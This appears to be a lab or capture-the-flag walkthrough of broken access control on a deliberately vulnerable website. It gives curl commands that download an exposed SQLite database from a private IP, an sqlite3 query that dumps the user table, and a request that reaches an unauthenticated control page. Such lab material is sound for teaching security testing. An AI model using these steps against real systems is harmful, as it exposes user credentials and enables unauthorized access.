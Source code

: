 # Vulnerable Website: Broken Access Control

To exploit the Broken Access Control vulnerability in the vulnerable website, follow these steps:

## Access to Database Directory

1. The directory structure of the vulnerable website is as follows:

    ```bash
    ├── db
    │ └── db.sql
    ├── control.php
    ├── css.css
    ├── dbconn.php
    ├── index.php
    ├── jquery-2.2.4.min.js
    └── js.js
    ```


2. Perform the following command to obtain the database file:

    ```bash
    curl http://10.10.1.231:51130/__db__/db.sql --output db.sql
    ```

    This command downloads the `db.sql` file from the `__db__` directory.

3. Once the db.sql file is obtained, execute the following command to print the content of the database:

    ```sql
    sqlite3 db.sql "SELECT * FROM user"
    ```

    This command uses SQLite to query and retrieve the data from the user table within the obtained database file.

## Lack of Session Management

1. In addition to the access to the database directory, there is a lack of Session Management for accessing the `control.php` page. This means that even without authenticating, a malicious user can still access the page.

    To highlight this, execute the following command (or perform the action in a web browser):

    ```bash
    curl http://10.10.1.231:51130/control.php
    ```

    This command accesses the `control.php` page without authentication, demonstrating the lack of proper session management. It allows unauthorized access to the web page.

    **Note:** Tools like DirBuster can be used to discover hidden files or directories, but they are not specifically related to this vulnerability.